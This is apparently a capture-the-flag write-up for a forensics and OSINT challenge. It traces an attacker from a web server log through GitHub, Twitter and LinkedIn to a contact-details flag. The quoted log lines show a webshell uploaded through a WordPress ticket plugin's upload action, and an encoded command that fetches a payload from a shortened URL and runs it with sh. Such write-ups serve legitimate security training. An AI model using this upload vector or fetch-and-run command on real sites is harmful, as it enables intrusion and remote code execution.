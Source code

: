 ### Story
> Partner's network was attacked. You were asked to investigate and find the attacker's name.

> Flag: hacker’s contacts in format: <name_surname>_<city>_<company>_<phone_number> 
> Example: John_Johnson_Chicago_CompanyExample_LLC_(123)33-22-452

### Given
Server log `access.log.txt`

Solution
===
1. Discover attack in log file\
Find Shell-code uploading\
`Line 645: 192.168.9.22	 - - [01/Jun/2019:12:55:07 +0000] "POST //wp-admin/admin-ajax.php?action=wpsc_tickets&setting_action=rb_upload_file HTTP/1.1" 301 289 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0"`\
Shell code exploitation\
`Line 665: 192.168.9.22	 - - [01/Jun/2019:14:25:00 +0000] "POST /wp-content/uploads/wpsc/1559393707_admin.php?upld%20%68%74%74%70%3a%2f%2f%62%69%74%2e%64%6f%2f%65%55%41%4a%57;sh%20/tmp/46 HTTP/1.1" 301 289 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0"`\
Get URL from exploit\
Decode string `%20%68%74%74%70%3a%2f%2f%62%69%74%2e%64%6f%2f%65%55%41%4a%57`and get the URL http://bit.do/eUAJW &rarr; that goes to GitHub\

2. GitHub repository analysis\
Find file where attacked server was mentioned - https://github.com/unvalidator/Code/blob/master/46252.txt\
![](images/image1.png)\
Get the nickname from the top of the file - `perfectus17539`\
![](images/image2.png)\

3. Social network analysis\
Find proper account in the social networks - https://twitter.com/perfectus17539\
Check information in tweets and get location of hacker &rarr; Richmond\
![](images/image3.png)\
Find picture with QR-code, scan it and search proper data on Linkedin &rarr; https://www.linkedin.com/company/secfortress-llc\
![](images/image4.png)\
Get hacker's contacts on Linkedin\
![](images/image5.png)\

4. Profit!\
Flag: `Justin_Ostins_ Richmond_SecFortress_LLC_153-899-916(765)`
